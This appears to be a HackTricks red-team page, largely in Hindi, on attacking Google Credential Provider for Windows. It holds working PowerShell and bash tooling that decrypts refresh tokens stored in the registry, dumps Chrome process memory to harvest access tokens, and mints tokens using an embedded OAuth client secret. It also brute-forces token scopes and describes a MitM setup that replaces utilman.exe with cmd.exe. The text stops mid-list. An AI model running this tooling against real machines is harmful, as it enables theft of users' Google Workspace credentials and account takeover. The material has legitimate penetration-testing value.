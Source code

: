 # GCPW - Google Credential Provider for Windows

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह एकल साइन-ऑन है जो Google Workspaces प्रदान करता है ताकि उपयोगकर्ता अपने Windows PCs में **अपने Workspace क्रेडेंशियल्स** का उपयोग करके लॉगिन कर सकें। इसके अलावा, यह कुछ स्थानों पर Google Workspace तक पहुँचने के लिए टोकन संग्रहीत करेगा।

{% hint style="success" %}
ध्यान दें कि [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GCPW** का पता लगाने, कॉन्फ़िगरेशन के बारे में जानकारी प्राप्त करने और **यहाँ तक कि टोकन** प्राप्त करने में सक्षम है।
{% endhint %}

### GCPW - MitM

जब एक उपयोगकर्ता GCPW के माध्यम से Google Workspace के साथ समन्वयित Windows PC तक पहुँचता है, तो उसे एक सामान्य लॉगिन फॉर्म पूरा करना होगा। यह लॉगिन फॉर्म एक OAuth कोड लौटाएगा जिसे PC एक अनुरोध में रिफ्रेश टोकन के लिए विनिमय करेगा जैसे: 

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

नई पंक्तियाँ इसे अधिक पठनीय बनाने के लिए जोड़ी गई हैं।

{% hint style="info" %}
यह एक MitM करने के लिए संभव था `Proxifier` को PC में स्थापित करके, `utilman.exe` बाइनरी को `cmd.exe` के साथ ओवरराइट करके और Windows लॉगिन पृष्ठ में **एक्सेसिबिलिटी फीचर्स** को निष्पादित करके, जो एक **CMD** को निष्पादित करेगा जिससे आप **Proxifier को लॉन्च और कॉन्फ़िगर** कर सकते हैं।\
**QUICK UDP** ट्रैफ़िक को `Proxifier` में ब्लॉक करना न भूलें ताकि यह TCP संचार में डाउनग्रेड हो जाए और आप इसे देख सकें।

"Serviced and other users" में दोनों विकल्पों को भी कॉन्फ़िगर करें और Windows में Burp CA प्रमाणपत्र स्थापित करें।
{% endhint %}

इसके अलावा **`HKLM:\SOFTWARE\Google\GCPW`** में `enable_verbose_logging = 1` और `log_file_path = C:\Public\gcpw.log` कुंजियों को जोड़कर कुछ लॉग्स संग्रहीत करना संभव है।

### GCPW - फिंगरप्रिंट

यह जांचना संभव है कि क्या GCPW किसी डिवाइस में स्थापित है यह जांचकर कि क्या निम्नलिखित प्रक्रिया मौजूद है या यदि निम्नलिखित रजिस्ट्री कुंजियाँ मौजूद हैं:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
In **`HKCU:\SOFTWARE\Google\Accounts`** यह संभव है कि उपयोगकर्ता का ईमेल और एन्क्रिप्टेड **refresh token** तक पहुंचा जा सके यदि उपयोगकर्ता हाल ही में लॉग इन हुआ हो।

In **`HKLM:\SOFTWARE\Google\GCPW\Users`** यह संभव है कि **domains** को खोजा जा सके जो `domains_allowed` कुंजी में लॉगिन करने की अनुमति है और उपकुंजियों में उपयोगकर्ता के बारे में जानकारी जैसे ईमेल, चित्र, उपयोगकर्ता नाम, टोकन जीवनकाल, टोकन हैंडल आदि मिल सकती है।

{% hint style="info" %}
टोकन हैंडल एक टोकन है जो `eth.` से शुरू होता है और जिससे कुछ जानकारी निकाली जा सकती है जैसे:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

यह भी संभव है कि एक अनुरोध के साथ एक एक्सेस टोकन के टोकन हैंडल को खोजा जा सके:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

Afaik यह संभव नहीं है कि टोकन हैंडल से एक रिफ्रेश टोकन या एक्सेस टोकन प्राप्त किया जा सके।
{% endhint %}

इसके अलावा, फ़ाइल **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** एक json है जिसमें विभिन्न **सेटिंग्स** की जानकारी होती है जैसे `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (यदि Workspace के कई उपयोगकर्ता कंप्यूटर में लॉगिन कर सकते हैं) और `validityPeriodDays` (दिनों की संख्या जब एक उपयोगकर्ता को सीधे Google के साथ फिर से प्रमाणित होने की आवश्यकता नहीं होती)।

## GCPW - टोकन प्राप्त करें

### GCPW - रजिस्ट्री रिफ्रेश टोकन

रजिस्ट्री **`HKCU:\SOFTWARE\Google\Accounts`** के अंदर कुछ खातों को **`refresh_token`** के साथ एन्क्रिप्टेड पाया जा सकता है। विधि **`ProtectedData.Unprotect`** इसे आसानी से डिक्रिप्ट कर सकती है।

<details>

<summary>डेटा प्राप्त करें <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> और रिफ्रेश_टोकन को डिक्रिप्ट करें</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

उदाहरण आउट:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

जैसा कि [**इस वीडियो**](https://www.youtube.com/watch?v=FEQxHRRP\_5I) में समझाया गया है, यदि आप रजिस्ट्री में टोकन नहीं पाते हैं, तो **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** से मान को संशोधित (या हटाने) की संभावना है और अगली बार जब उपयोगकर्ता कंप्यूटर तक पहुंचता है, तो उसे फिर से लॉगिन करने की आवश्यकता होगी और **टोकन पिछले रजिस्ट्री में संग्रहीत होगा**।

### GCPW - डिस्क रिफ्रेश टोकन

फाइल **`%LocalAppData%\Google\Chrome\User Data\Local State`** में **`refresh_tokens`** को डिक्रिप्ट करने के लिए कुंजी संग्रहीत होती है जो उपयोगकर्ता के **Google Chrome प्रोफाइल** के अंदर स्थित होती है जैसे:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

इन टोकनों को उनके डिक्रिप्टेड रूप में एक्सेस करने के लिए कुछ **C# कोड** [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) में पाया जा सकता है।

इसके अलावा, एन्क्रिप्टिंग इस कोड में पाई जा सकती है: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

यह देखा जा सकता है कि AESGCM का उपयोग किया गया है, एन्क्रिप्टेड टोकन एक **संस्करण** (**`v10`** इस समय) से शुरू होता है, फिर इसमें [**12B का नॉनस**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42) होता है, और फिर इसमें **साइफर-टेक्स्ट** होता है जिसमें अंतिम **mac 16B** होता है।

### GCPW - प्रक्रियाओं की मेमोरी से टोकन डंप करना

निम्नलिखित स्क्रिप्ट का उपयोग हर **Chrome** प्रक्रिया को **डंप** करने के लिए किया जा सकता है, `procdump` का उपयोग करके, **स्ट्रिंग्स** को निकालें और फिर **एक्सेस और रिफ्रेश टोकन** से संबंधित स्ट्रिंग्स के लिए खोजें। यदि Chrome किसी Google साइट से जुड़ा है, तो कुछ **प्रक्रिया मेमोरी में रिफ्रेश और/या एक्सेस टोकन संग्रहीत कर रही होगी!**

<details>

<summary>Chrome प्रक्रियाओं को डंप करें और टोकन खोजें</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

मैंने `gcpw_extension.exe` के साथ वही कोशिश की लेकिन यह कोई टोकन नहीं मिला।

किसी कारण से, **कुछ निकाले गए एक्सेस टोकन मान्य नहीं होंगे (हालांकि कुछ होंगे)**। मैंने डंप से मान्य टोकन प्राप्त करने के लिए एक-एक करके अक्षर हटाने के लिए निम्नलिखित स्क्रिप्ट का प्रयास किया। इसने मुझे कभी भी मान्य टोकन खोजने में मदद नहीं की, लेकिन मुझे लगता है कि यह मदद कर सकता है:

<details>

<summary>एक्सेस टोकन को एक-एक करके अक्षर हटाकर जांचें</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके, इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

{% hint style="info" %}
ध्यान दें कि रिफ्रेश टोकन होने के बावजूद, आप एक्सेस टोकन के लिए किसी भी स्कोप का अनुरोध नहीं कर सकते क्योंकि आप केवल उन **स्कोप का अनुरोध कर सकते हैं जो उस एप्लिकेशन द्वारा समर्थित हैं जहां आप एक्सेस टोकन उत्पन्न कर रहे हैं**।

इसके अलावा, रिफ्रेश टोकन हर एप्लिकेशन में मान्य नहीं है।
{% endhint %}

डिफ़ॉल्ट रूप से GCPW उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:

<details>

<summary>ब्रूट-फोर्स किए गए स्कोप</summary>
```
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
</details>

इसके अलावा, Chromium स्रोत कोड की जांच करने पर [**यह फ़ाइल खोजी जा सकती है**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), जिसमें **अन्य स्कोप** शामिल हैं जो **पहले से ब्रूट-फोर्स की गई सूची में नहीं दिखाई देते**। इसलिए, इन अतिरिक्त स्कोप को माना जा सकता है:

<details>

<summary>अतिरिक्त स्कोप</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

ध्यान दें कि सबसे दिलचस्प संभवतः है:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
हालांकि, मैंने इस दायरे का उपयोग gmail तक पहुँचने या समूहों की सूची बनाने के लिए करने की कोशिश की और यह काम नहीं किया, इसलिए मुझे नहीं पता कि यह अभी कितना उपयोगी है।

**सभी उन दायरों के साथ एक एक्सेस टोकन प्राप्त करें**:

<details>

<summary>सभी दायरों के साथ refresh_token से एक्सेस टोकन उत्पन्न करने के लिए Bash स्क्रिप्ट</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
